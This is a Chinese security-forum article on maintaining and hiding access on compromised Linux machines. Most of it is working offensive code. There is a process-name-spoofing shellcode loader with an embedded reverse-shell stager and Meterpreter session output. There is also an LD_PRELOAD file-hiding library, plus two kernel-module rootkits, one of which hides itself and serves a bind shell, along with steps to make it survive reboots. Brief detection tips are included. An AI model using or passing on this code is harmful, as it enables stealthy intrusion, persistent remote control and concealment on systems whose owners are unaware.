

# linux 权限的维持和隐藏-先知社区

> **来源**: https://xz.aliyun.com/news/19129  
> **文章ID**: 19129

---

在获得基本权限后，就会考虑进程隐藏的问题

### argv[0] 修改 进程隐藏

> 权限要求：无需root

一个典型的main函数是这样的

```
int main(int argc, char* argv[])
```

其中argc为参数的数量，argv为指向字符串的数组的指针，而`argv[0]`是程序自身的名字，而其是可写的

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char* argv[])
{
    sleep(8);
    strcpy(argv[0], "[]");
    while (1);                                                                                                           
 
    return 0;
}
```

如此就可以构造出这样的一个加载器

```
#include<stdio.h>
#include<string.h>
#include<sys/mman.h>
unsigned char shellcode[] = 
"\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
"\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
"\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
"\xd4\x97\xc0\xa8\x38\x65\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
"\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
"\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
"\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
"\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
"\x78\xed\xff\xe6";

int main(int argc, char* argv[]) {
    strcpy(argv[0], "[hwrng]");
    void *exec = mmap(0, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);

    if (exec == MAP_FAILED) {
        perror("mmap failed");
        return 1;
    }

    memcpy(exec, shellcode, sizeof(shellcode));

    ((void(*)())exec)();

    return 0;
}
```

```
neko       32886  0.0  0.0   5288  3968 pts/0    S+   12:35   0:00 ./shell
root       32887  0.0  0.0      0     0 ?        I<   12:35   0:00 [kworker/u49:2-rtw89_tx_wq]
neko       32924  0.0  0.0 234292 14976 pts/2    R+   12:36   0:00 ps -aux
```

修改后

```
root       33152  0.0  0.0      0     0 ?        I    12:37   0:00 [kworker/u48:1-kvfree_rcu_reclaim]
neko       33183  0.3  0.0   5284  3952 pts/0    S+   12:37   0:00 [hwrng]
neko       33186  0.0  0.0 234292 14976 pts/2    R+   12:37   0:00 ps -aux

```

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 
[*] Sending stage (3090404 bytes) to 
[*] Meterpreter session 4 opened () at 2025-10-04 04:37:35 +0000

meterpreter > sysinfo
Computer     : 
OS           : AOSC OS 12.2.2 (Linux 6.16.9-aosc-main)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

这种手段只能骗对linux了解不深的人，破绽太多了

1. 可执行文件链接

```
neko       33183  0.3  0.0   5284  3952 pts/0    S+   12:37   0:00 [hwrng]
neko       33186  0.0  0.0 234292 14976 pts/2    R+   12:37   0:00 ps -aux
neko@aosc [ ~ ] $ ls -l /proc/33183/exe
lrwxrwxrwx 1 neko neko 0 10月 4日 12:43 /proc/33183/exe -> /home/neko/tmp/shell
neko@aosc [ ~ ] $ 
```

1. 启动用户

内核线程的启动用户总是root，如果看到一个非root下有一个内核进程那绝对有问题

1. tty

注意观察真正的内核进程是这样的

```
root        3914  0.0  0.0      0     0 ?        S    09:45   0:00 [nvidia-drm/timeline-26]
neko       33183  0.3  0.0   5284  3952 pts/0    S+   12:37   0:00 [hwrng]
```

而伪造的则有pts，某些时候这也是观察的一个点

<https://zhuanlan.zhihu.com/p/384463587>

### LD\_PRELOAD 预加载 劫持

> 全局生效：root权限

```
/*
 * gcc -shared -fPIC -o hider.so hider.c -ldl
 */

#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>

#define HIDDEN_FILE "secret.txt"

/*
 * 伪造 readdir 函数
 */
struct dirent *readdir(DIR *dirp) {
    static struct dirent *(*original_readdir)(DIR *);
    
    if (original_readdir == NULL) {
        original_readdir = dlsym(RTLD_NEXT, "readdir");
        if (original_readdir == NULL) {
            fprintf(stderr, "Error in dlsym: %s
", dlerror());
            return NULL;
        }
    }

    struct dirent *dir;

    while (1) {
        dir = original_readdir(dirp);

        if (dir && strcmp(dir->d_name, HIDDEN_FILE) == 0) {
            continue; 
        } else {
            break; 
        }
    }

    // 结果返回给调用者 例如ls
    return dir;
}
```

linux在加载动态链接库的过程中，动态链接器会读取LD\_PRELOAD环境变量和/etc/ld.so.preload的文件内容，并进行预加载，他们的优先级极高，会提前与用户的调用载入

#### 符号竞争

简单来说在一个程序运行时，多个共享库中存在同名全局符号，只会加载第一个，比如上面的例子，在用户ls的时候linux会先检查这个可执行文件内部是否存在readdir函数，一般不存在，而后就是高优先级的LD\_PRELOAD，也就是我们要劫持的目标

#### 演示

```
neko@aosc [ tmp ] $ ls
hider.so  secret.txt
neko@aosc [ tmp ] $ LD_PRELOAD=./hider.so ls 
hider.so 
```

或者

```
root@aosc [ tmp ] # ls
hider.so  secret.txt
root@aosc [ tmp ] # pwd
/home/neko/tmp
root@aosc [ tmp ] # echo "/home/neko/tmp/hider.so" > /etc/ld.so.preload
root@aosc [ tmp ] # ls
hider.so
root@aosc [ tmp ] # cat /etc/ld.so.preload 
/home/neko/tmp/hider.so
root@aosc [ tmp ] # 
```

#### 检测手法

1. strace`gcc -shared -fPIC -o hider.so hider.c -ldl`

```
root@aosc [ tmp ] # strace ls
execve("/usr/bin/ls", ["ls"], 0x7ffc39ce54a0 /* 33 vars */) = 0
brk(NULL)                               = 0x556dba35e000
access("/etc/ld.so.preload", R_OK)      = 0
openat(AT_FDCWD, "/etc/ld.so.preload", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=24, ...}) = 0
mmap(NULL, 24, PROT_READ|PROT_WRITE, MAP_PRIVATE, 3, 0) = 0x7fca644a0000
close(3)                                = 0
openat(AT_FDCWD, "/home/neko/tmp/hider.so", O_RDONLY|O_CLOEXEC) = 3
```

这是最简单的方法，但这种手法也是可以被劫持的毕竟strace本身也是一个普通的可执行程序

1. 静态编译busybox正如上面符号竞争那一节所说多个共享库中存在同名全局符号，只会加载第一个，那就可以做一个静态编译的busybox来对抗用户空间的劫持，因为包含了所需的所有函数库代码，所以不会被LD\_PRELOAD影响

```
neko@aosc [ tmp ] $ LD_PRELOAD=./hider.so ./busybox ls
hider.so                               busybox                              secret.txt 
neko@aosc [ tmp ] $ LD_PRELOAD=./hider.so ls
busybox hider.so
neko@aosc [ tmp ] $ 
```

<https://www.freebuf.com/articles/network/162604.html>

<https://www.freebuf.com/articles/system/401404.html>

### 内核模块权限维持

> root权限

* 案例1

```
#include <linux/module.h>
#include <linux/kthread.h>
#include <linux/delay.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/fs.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("test");
MODULE_DESCRIPTION("test");

static struct task_struct *watchdog_thread;

// ELF
static unsigned char payload[] = {
 
};


// 检查文件
static int file_exists(const char *filename) {
    struct file *file;
    file = filp_open(filename, O_RDONLY, 0);
    if (IS_ERR(file)) {
        return 0; 
    }
    filp_close(file, NULL);
    return 1; // 文件存在
}

// 创建
static int create_and_execute_binary(void) {
    struct file *file;
    loff_t pos = 0;
    ssize_t ret;
    
    // 打开
    file = filp_open("/tmp/test", O_CREAT | O_WRONLY | O_TRUNC, 0777);
    if (IS_ERR(file)) {
        return PTR_ERR(file);
    }
    
    // 写入
    ret = kernel_write(file, payload, sizeof(payload), &pos);
    
    // 关闭
    filp_close(file, NULL);
    
    // 设置权限
    if (ret > 0) {
        char *argv[] = { "/bin/chmod", "755", "/tmp/test", NULL };
        char *envp[] = { "HOME=/", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
        
        call_usermodehelper("/bin/chmod", argv, envp, UMH_WAIT_EXEC);
        
    }
    
    return ret;
}

static int ensure_file_exists(void) {
    // 检查文件是否存在
    if (!file_exists("/tmp/test")) {
        return create_and_execute_binary();
    } else {
    }
    
    return 0; 
}

// 看门狗
static int watchdog_func(void *data) {
    allow_signal(SIGKILL);
    
    while (!kthread_should_stop()) {
        
        ensure_file_exists();
        
        // 检查时间
        msleep(30000);
    }
    
    return 0;
}

static int __init kwatchdog_init(void) {
    
    watchdog_thread = kthread_run(watchdog_func, NULL, "kwatchdog_thread");
    if (IS_ERR(watchdog_thread)) {
        printk(KERN_ERR "Failed to create kernel thread: %ld
", PTR_ERR(watchdog_thread));
        return PTR_ERR(watchdog_thread);
    }
    
    return 0;
}

static void __exit kwatchdog_exit(void) {
    
    if (watchdog_thread) {
        kthread_stop(watchdog_thread);
        watchdog_thread = NULL;
    }
    
}

module_init(kwatchdog_init);
module_exit(kwatchdog_exit);

```

```
obj-m += rootkit.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

```
sudo insmod rootkit.ko
sudo rmmod rootkit
```

如上的内核模块实现了一个释放elf文件的功能保证他的存在，其实可以扩展下，例如shellcode直接执行定期检查死亡重启

* 案例2

```
#include <linux/module.h>
#include <linux/kthread.h>
#include <linux/delay.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/string.h>
#include <linux/net.h>
#include <linux/in.h>
#include <linux/tcp.h>
#include <linux/socket.h>
#include <linux/fs.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Educational");
MODULE_DESCRIPTION("Kernel TCP command server");

static struct task_struct *server_thread;
static struct socket *listen_socket;

// 隐藏模块的函数
static void hide_module(void) {
    struct module *mod = THIS_MODULE;
    
    list_del_init(&mod->list);
    kobject_del(&mod->mkobj.kobj);
    list_del_init(&mod->mkobj.kobj.entry);
}

// 创建TCP服务器
static int create_tcp_server(int port) {
    struct sockaddr_in addr;
    int ret;
    
    // 创建socket
    ret = sock_create_kern(&init_net, AF_INET, SOCK_STREAM, IPPROTO_TCP, &listen_socket);
    if (ret < 0) {
        return ret;
    }
    
    // 设置地址
    memset(&addr, 0, sizeof(addr));
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    addr.sin_addr.s_addr = htonl(INADDR_ANY);
    
    // 绑定端口
    ret = kernel_bind(listen_socket, (struct sockaddr *)&addr, sizeof(addr));
    if (ret < 0) {
        sock_release(listen_socket);
        return ret;
    }
    
    // 开始监听
    ret = kernel_listen(listen_socket, 5);
    if (ret < 0) {
        sock_release(listen_socket);
        return ret;
    }
    
    return 0;
}

// 通过shell脚本执行命令并捕获输出
static void execute_command_with_output(struct socket *client_sock, const char *cmd) {
    struct file *file;
    loff_t pos = 0;
    char script_path[64];
    char output[4096] = {0};
    struct msghdr msg;
    struct kvec vec;
    int ret;
    
    // 生成唯一的脚本文件名
    snprintf(script_path, sizeof(script_path), "/tmp/.cmd_%lu.sh", jiffies);
    
    // 创建脚本文件
    file = filp_open(script_path, O_CREAT | O_WRONLY | O_TRUNC, 0700);
    if (IS_ERR(file)) {
        return;
    }
    
    // 写入脚本内容
    char script_content[1024];
    snprintf(script_content, sizeof(script_content), 
             "#!/bin/sh
%s > /tmp/.cmd_output 2>&1
"
             "echo "Exit code: $?" >> /tmp/.cmd_output
"
             "cat /tmp/.cmd_output", cmd);
    
    ret = kernel_write(file, script_content, strlen(script_content), &pos);
    filp_close(file, NULL);
    
    if (ret <= 0) {
        return;
    }
    
    // 执行脚本
    char *argv[] = { "/bin/sh", script_path, NULL };
    char *envp[] = { "HOME=/", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
    
    ret = call_usermodehelper("/bin/sh", argv, envp, UMH_WAIT_PROC);
    
    // 读取输出
    file = filp_open("/tmp/.cmd_output", O_RDONLY, 0);
    if (!IS_ERR(file)) {
        pos = 0;
        ret = kernel_read(file, output, sizeof(output) - 1, &pos);
        if (ret > 0) {
            output[ret] = '\0';
        }
        filp_close(file, NULL);
    } else {
        snprintf(output, sizeof(output), "Failed to read command output
");
    }
    
    // 发送响应
    vec.iov_base = output;
    vec.iov_len = strlen(output);
    
    memset(&msg, 0, sizeof(msg));
    msg.msg_flags = 0;
    
    kernel_sendmsg(client_sock, &msg, &vec, 1, vec.iov_len);
    
    // 清理文件
    char *clean_argv[] = { "/bin/rm", "-f", script_path, "/tmp/.cmd_output", NULL };
    call_usermodehelper("/bin/rm", clean_argv, envp, UMH_WAIT_EXEC);
}

// 处理客户端连接
static void handle_client(struct socket *client_sock) {
    struct msghdr msg;
    struct kvec vec;
    char buffer[1024];
    int ret;
    
    // 发送欢迎消息
    char *welcome = "Kernel Command Server - Enter commands to execute
> ";
    vec.iov_base = welcome;
    vec.iov_len = strlen(welcome);
    memset(&msg, 0, sizeof(msg));
    kernel_sendmsg(client_sock, &msg, &vec, 1, vec.iov_len);
    
    while (!kthread_should_stop()) {
        // 接收数据
        memset(buffer, 0, sizeof(buffer));
        vec.iov_base = buffer;
        vec.iov_len = sizeof(buffer) - 1;
        
        memset(&msg, 0, sizeof(msg));
        msg.msg_flags = 0;
        
        ret = kernel_recvmsg(client_sock, &msg, &vec, 1, vec.iov_len, msg.msg_flags);
        if (ret <= 0) {
            break;
        }
        
        buffer[ret] = '\0';
        
        // 移除换行符
        if (buffer[strlen(buffer) - 1] == '
') {
            buffer[strlen(buffer) - 1] = '\0';
        }
        
        // 跳过空命令
        if (strlen(buffer) == 0) {
            // 发送提示符
            char *prompt = "> ";
            vec.iov_base = prompt;
            vec.iov_len = strlen(prompt);
            memset(&msg, 0, sizeof(msg));
            kernel_sendmsg(client_sock, &msg, &vec, 1, vec.iov_len);
            continue;
        }
        
        // 执行命令
        execute_command_with_output(client_sock, buffer);
        
        // 发送新的提示符
        char *prompt = "
> ";
        vec.iov_base = prompt;
        vec.iov_len = strlen(prompt);
        memset(&msg, 0, sizeof(msg));
        kernel_sendmsg(client_sock, &msg, &vec, 1, vec.iov_len);
    }
    
    sock_release(client_sock);
}

// TCP服务器线程函数
static int tcp_server_func(void *data) {
    struct socket *client_sock;
    int ret;
    
    allow_signal(SIGKILL);
    
    // 创建TCP服务器
    ret = create_tcp_server(65522);
    if (ret < 0) {
        return ret;
    }
    
    while (!kthread_should_stop()) {
        // 接受客户端连接
        ret = kernel_accept(listen_socket, &client_sock, 0);
        if (ret < 0) {
            if (signal_pending(current)) {
                break;
            }
            msleep(100);
            continue;
        }
        
        // 处理客户端
        handle_client(client_sock);
    }
    
    // 清理
    if (listen_socket) {
        sock_release(listen_socket);
        listen_socket = NULL;
    }
    
    return 0;
}

static int __init kernel_server_init(void) {
    // 创建服务器线程
    server_thread = kthread_run(tcp_server_func, NULL, "ktcp_server");
    if (IS_ERR(server_thread)) {
        return PTR_ERR(server_thread);
    }
    
    // 隐藏模块
    hide_module();
    
    return 0;
}

static void __exit kernel_server_exit(void) {
    if (server_thread) {
        kthread_stop(server_thread);
        server_thread = NULL;
    }
    
    if (listen_socket) {
        sock_release(listen_socket);
        listen_socket = NULL;
    }
    
    // 清理临时文件
    char *argv[] = { "/bin/rm", "-f", "/tmp/.cmd_*.sh", "/tmp/.cmd_output", NULL };
    char *envp[] = { "HOME=/", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
    call_usermodehelper("/bin/rm", argv, envp, UMH_WAIT_EXEC);
}

module_init(kernel_server_init);
module_exit(kernel_server_exit);

```

这个模块实现了一个bindShell 端口65522nc连接就可以，安装过程如下，且可以保证重启依旧有效

```
┌──(kali㉿kali)-[~/kernel2]
└─$ sudo cp rootkit.ko /lib/modules/$(uname -r)/kernel/drivers/                           

┌──(kali㉿kali)-[~/kernel2]
└─$ sudo depmod -a
                                               
┌──(kali㉿kali)-[~/kernel2]
└─$ sudo nano /etc/modules-load.d/rootkit.conf
                                               
┌──(kali㉿kali)-[~/kernel2]
└─$ 
```


